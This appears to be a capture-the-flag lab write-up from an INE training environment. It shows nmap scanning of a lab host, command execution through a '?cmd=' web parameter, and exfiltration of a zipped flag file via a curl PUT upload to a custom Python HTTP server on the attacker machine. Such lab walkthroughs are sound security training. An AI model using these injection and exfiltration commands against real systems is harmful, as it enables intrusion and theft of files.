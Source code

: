 # Data Exfiltration

## 🔬

The Kali OS GUI instance is web hosted on the INE website, where:

- You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a *low privilege user* (i.e. student). A sensitive flag file is kept in a zipped archive file in the *student user's home directory*.
- There is a monitor process running on the server machine that blocks most protocols *except HTTP protocol* (when using port **80**).
- The API endpoint is accessible at `demo.ine.local` domain.

*Objective*: Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

***Tools*** used:

- **`nmap`**, **`curl`**
- A web browser
- Python Scripting

## SOLUTION

- Check Kali instance IP address and ping the vulnerable server.

  - **`ip -br -c a`**
  - **`ping demo.ine.local`**

  ```shell
  root@INE:~# ip -br -c a
  eth1@if126466    UP             192.70.33.2/24 
  lo               UNKNOWN        127.0.0.1/8 
  ip_vti0@NONE     DOWN           
  eth0@if126463    UP             10.1.0.17/16
  
  root@INE:~# ping demo.ine.local
  PING demo.ine.local (192.70.33.3) 56(84) bytes of data.
  64 bytes from demo.ine.local (192.70.33.3): icmp_seq=1 ttl=64 time=0.159 ms
  ```

- The web server IP is `192.70.33.3` 

- Perform an `nmap` scan to check open ports on the server:

  - *Simple scan*: **`sudo nmap demo.ine.local`**

  ```shell
  root@INE:~# sudo nmap demo.ine.local
  Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-05 15:34 IST
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE
  8000/tcp open  http-alt
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
  ```

  - *Advanced scan*: **`sudo nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3`**
    - **`-sC`** - for default scripts
    - **`-sV`** - probe open ports to determine service/versions info
    - **`-oA`** - output all 3 major formats in a directory

  ```shell
  root@INE:~# less nmap/dataexfiltration.nmap
  
  # Nmap 7.92 scan initiated Thu May  5 14:31:09 2022 as: nmap -sC -sV -oA nmap/dataexfiltration 192.70.33.3
  Nmap scan report for demo.ine.local (192.70.33.3)
  Host is up (0.0000080s latency).
  Not shown: 999 closed tcp ports (reset)
  PORT     STATE SERVICE VERSION
  8000/tcp open  http    Werkzeug httpd 0.15.2 (Python 2.7.16)
  |_http-title: Site doesn't have a title (text/html; charset=utf-8).
  MAC Address: 02:42:C0:46:21:03 (Unknown)
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Thu May  5 14:31:15 2022 -- 1 IP address (1 host up) scanned in 6.91 seconds
  ```

  - A Python2 web server (Werkzeug) is running on open port **8000**.

- Check the response from a browser by visiting `http://demo.ine.local:8000/`

![](.gitbook/assets/image-20220505111539250.png)

- Pass a parameter named `cmd` with the URL, using `?cmd=VALUE` in the URL:

  - **`http://demo.ine.local:8000/?cmd=pwd`**

  ![](.gitbook/assets/image-20220505120650948.png)

  - **`http://demo.ine.local:8000/?cmd=ls+-l`** - check contents of pwd:

  ![](.gitbook/assets/image-20220505120905753.png)

- *flag.zip* file must be transferred to the Kali instance.

- Check if `curl` command is present on the server

  - **`http://demo.ine.local:8000/?cmd=curl+-h`** - curl is present:

  ![](.gitbook/assets/image-20220505121245432.png)

  - `curl` can be used to exfiltrate the flag.zip file by sending it over HTTP protocol to a local HTTP server on the Kali instance, using the **`-T`** option:

  > -T, --upload-file <file>
  >               This transfers the specified local file to the remote URL. If  there  is  no
  >               file  part  in the specified URL, curl will append the local file name. NOTE
  >               that you must use a trailing / on the last directory to really prove to Curl
  >               that  there is no file name or curl will think that your last directory name
  >               is the remote file name to use. That will most likely cause the upload oper‐
  >               ation to fail. If this is used on an HTTP(S) server, the PUT command will be
  >               used.

- Run a HTTP server on the local machine using python:

  - **`python -m SimpleHTTPServer 80`**

  - The Kali instance IP is `192.70.33.2`

  - `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`

    - *Error response - Unsupported method ('PUT')*

    ![](.gitbook/assets/image-20220505125425734.png)

  - (Same error with **`python3 -m http.server 80`**)
  - Create a Python script to run an *HTTP server supporting PUT*.

  ```shell
  root@INE:~# which python
  /usr/bin/python
  
  root@INE:~# nano httpserver.py
  ```

  - Add the following code to the htttserver.py script:

  ```python
  #!/usr/bin/python
  import SimpleHTTPServer
  import BaseHTTPServer
  
  class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
      def do_PUT(self):
          print self.headers
          length = int(self.headers["Content-Length"])
          path = self.translate_path(self.path)
          with open(path, "wb") as dst:
              dst.write(self.rfile.read(length))
  
  
  if __name__ == '__main__':
      SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
  ```

  > *Thanks to [BigBlueHat](https://gist.github.com/BigBlueHat/0ca3894f715aac2f2e40af3a8aa0a436) for the script.*

  - Run the SimpleHTTP server using the script:
    - **`python httpserver.py 80`**
  - Try again the PUT request - `http://demo.ine.local:8000/?cmd=curl+192.70.33.2+-T+flag.zip`
    - Archive flag.zip was received by the server.

  ![](.gitbook/assets/image-20220505130449931.png)

- Stop the running HTTP server and check the folder for the downloaded file.

  - **`ls -l`**

  ![](.gitbook/assets/image-20220505131132654.png)

- Unzip the archive and retrieve the flag:

  - **`unzip flag.zip`**
  - **`cat flag/flag.txt`**

  ![](.gitbook/assets/image-20220505131635395.png)

> 📍 Lab solved!
